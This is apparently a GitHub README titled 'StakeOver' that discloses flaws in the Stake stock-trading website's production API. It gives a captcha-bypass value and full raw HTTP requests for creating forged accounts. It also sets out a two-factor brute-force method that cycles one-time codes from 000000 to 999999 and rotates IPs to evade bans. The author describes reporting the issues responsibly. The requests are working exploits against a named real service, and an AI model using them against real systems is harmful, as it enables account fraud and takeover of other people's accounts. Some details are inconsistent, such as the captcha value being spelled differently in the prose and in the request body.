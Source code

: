 # StakeOver
The [Stake](https://hellostake.com/) stock trading website is accessed through a mismanaged and insecure custom API. Manipulation of requests allow an attacker to:
1) Create any number of falsified users on the website
2) Tie all of these users to referal codes during "Sign Up"
3) Bypass Captcha Prompts
4) Bruteforce Two-Factor Authentication

After finding a number of vulnerabilities on the Stake website, without any intrusive exploitation, the security team decided to personally reach out and intimidate me on discord. A full audit of this site would likely introduce a number of much more serious issues as I did not perform any intrusive auditing. These issues have all been brought to the attention of the Stake security team and disclosed responsibly.

## Requests
Bypassing Captcha:
Simply append the `"captcha":"captchaIgnore"` option in any request body.

Forging Users:
```
POST /api/users/createuser/ HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 355
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"marketingOptIn":true,"cvmAcceptance":null,"emailAddress":"noot@nootnoot.io",
"password":"Password12345$","captcha":"catpchaIgnore","username":"FakeUser","guestUserId":null,"regionIdentifier":"AUS","firstName":"noot","lastName":"LastName","marketingTitle":null,"campaign":null,"channel":null,"referringLink":null,"feature":null,"influencerClickId":null}
```

The user verification link will be sent to the email not the username although the website will prompt "Sending to username". This is not a problem however as 2FA can be bypassed.

Two-Factor Authentication Bruteforce:
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"nootnootalakazam@protonmail.com","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3"}
```
Will send a one time password to the email associated with the username. 
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"noot@nootnoot.io","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3","otp":"772335"}
```
Will attempt to verify the OTP. Inctiment the OTP from 000000-999999 until one works. Every 10,000 requests (aprox) the IP is banned and should be changed. When a request status 200 is identified, the user has logged in suessfully.

[@nootsploit](https://twitter.com/nootsploit)

https://dragoneyeintel.com
